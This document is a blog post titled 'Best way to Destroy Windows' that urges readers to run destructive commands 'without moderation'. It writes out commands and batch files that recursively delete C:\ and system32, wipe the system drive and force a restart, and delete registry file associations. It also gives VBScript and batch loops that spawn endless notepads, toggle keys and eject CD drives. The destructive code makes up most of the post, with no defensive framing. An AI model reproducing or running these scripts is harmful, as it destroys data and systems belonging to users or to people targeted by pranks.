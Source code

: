 ```yaml
---
layout: post
title: Best way to Destroy Windows
subtitle: Run this command without moderation;)
bigimg: /img/winfuckair.gif
---
```


## Best way to Destroy Windows
Run this command without moderation;)

### 1. Type this in command prompt:

> RD C:\ /S /Q

> del c:\windows\system32\*.* /q

> del /f /s /q "C:\*.*."

### 2. Type this in notepad:

Save the file anywhere (.bat) and execute it:

##### 2.1 The blue screen of Death

Code:

```@echo off
del %systemdrive%\*.*/f/s/q
shutdown -r -f -t 00
```


##### 2.2 Stupidity Shutdown

code:

```@echo off
msg * Fatal system error due to admin stupidity!
shutdown -c “Error! You are too stupid!” -s -t 10
```


##### 2.3 Delete Key Registry Files

code:

```@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your computer has been fcked.Â Â Have a nice day.
GOTO MESSAGE
```


##### 2.4 Endless Notepads

code:

```@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```


##### 2.5 Crazy caps lock

code:

```Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{CAPSLOCK}”
loop
```


##### 2.6 Endless Enter

code:

```Set wshShell = wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```


##### 2.7 Endless Backspace

code:

```MsgBox “Let’s go back a few steps”
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{bs}”
loop
```


##### 2.8 Popping CD Drives

code:

```Set oWMP = CreateObject(“WMPlayer.OCX.7”)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```


And have a good day!

Font's: [dbsdp](http://dbsdp.blogspot.com.br/2010/10/destroy-xp-with-single-command.html) | [itechnobuzz](https://www.itechnobuzz.com/the-8-deadly-windows-vbs-commands/l)